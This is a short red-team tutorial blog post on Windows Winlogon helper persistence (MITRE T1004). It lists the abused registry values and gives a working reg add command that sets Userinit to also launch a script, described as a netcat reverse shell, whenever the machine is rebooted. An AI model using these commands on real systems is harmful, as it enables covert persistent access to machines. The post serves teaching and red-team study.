 ```yaml
---
layout: post
title: "2024-06-18-windows logon helper"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /windows-logon-helper/
---
```


# Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](<../../.gitbook/assets/image (424).png>)

Let's now add an additional item shell.cmd (a simple reverse netcat shell) to the list that we want to be launched when the compromised machine reboots:

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](<../../.gitbook/assets/image (425).png>)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](<../../.gitbook/assets/image (426).png>)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" %}
@spotheplanet
